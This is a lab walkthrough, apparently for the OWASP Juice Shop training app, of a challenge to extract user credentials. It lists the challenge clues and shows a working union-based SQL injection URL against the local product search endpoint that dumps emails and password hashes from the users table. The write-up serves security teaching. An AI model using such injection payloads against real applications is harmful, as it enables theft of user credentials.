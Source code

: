 # User Credentials

![image](../../Assets/7-3.png)

## Clue provided

1. Gather information on where user data is stored and how it is addressed. Then craft a corresponding UNION SELECT attack.
2. Try to find an endpoint where you can influence data being retrieved from the server.
3. Craft a UNION SELECT attack string to join data from another table into the original result.
4. You might have to tackle some query syntax issues step-by-step, basically hopping from one error to the next

## Solution

### Identifying vulnerability

From intercepting login request, we can see that the application is sending a POST request to the following endpoint:

```
127.0.0.1:3000/rest/user/login
```

with json body:

```json
{
  "email": "<email>",
  "password": "<password>"
}
```

![image](../../Assets/7-1.png)

### Exploiting the vulnerability

We can use union-based SQL injection to extract the user credentials. The database system in use is SQLite, which stores its user data in the `users` table.

```
http://127.0.0.1:3000/rest/products/search?q=%27))%20UNION%20SELECT%201,email,password,4,5,6,7,8,9%20FROM%20users--
```

![image](../../Assets/7-2.png)

### Result

![image](../../Assets/7-4.png)


